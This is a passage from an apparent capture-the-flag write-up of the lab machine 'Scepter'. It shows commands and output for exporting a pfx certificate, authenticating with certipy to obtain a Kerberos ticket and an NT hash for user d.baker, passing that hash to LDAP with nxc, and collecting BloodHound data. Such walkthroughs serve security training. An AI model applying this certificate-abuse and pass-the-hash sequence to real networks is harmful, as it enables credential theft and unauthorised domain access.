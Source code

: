 ```bash
Use the --show option to display all of the cracked passwords reliably
Session completed.
```

Success! we found a password, doing this on every `pfx` file showed the same password.

Let's grab a `pfx` file for `d.baker`, when prompted for an export password let's not provide one.
```bash
openssl pkcs12 -export -out baker.pfx -inkey mount/baker.key -in mount/baker.crt

Enter pass phrase for mount/baker.key:
Enter Export Password:
Verifying - Enter Export Password:
```

Change the certificate permissions.
```bash
chmod 700 baker.pfx
```

Let's ensure that we don't run into clock skew errors with this little trick.
```bash
faketime "$(date +'%Y-%m-%d') $(net time -S $DC_IP | awk '{print $4}')" zsh 
```

Now let's use `certipy` to grab credentials using the `pfx` file we got for `baker`.
```bash
certipy auth -pfx baker.pfx

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: d.baker@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22c
```

Let's try to authenticate to ldap.
```bash
nxc ldap scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce

LDAP        10.129.234.192  389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.129.234.192  389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce
```

Success! we can authenticate as `d.baker!`.
# User
Let's collect some `bloodhound` data.
```bash
nxc ldap scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --bloodhound -c all --dns-server $TARGET

LDAP        10.129.234.192  389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.129.234.192  389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce
LDAP        10.129.234.192  389    DC01             Resolved collection methods: rdp, localadmin, psremote, dcom, trusts, objectprops, session, container, group, acl
LDAP        10.129.234.192  389    DC01             Done in 01M 13S
LDAP        10.129.234.192  389    DC01             Compressing output into /root/.nxc/logs/DC01_10.129.234.192_2025-04-20_201811_bloodhound.zip
```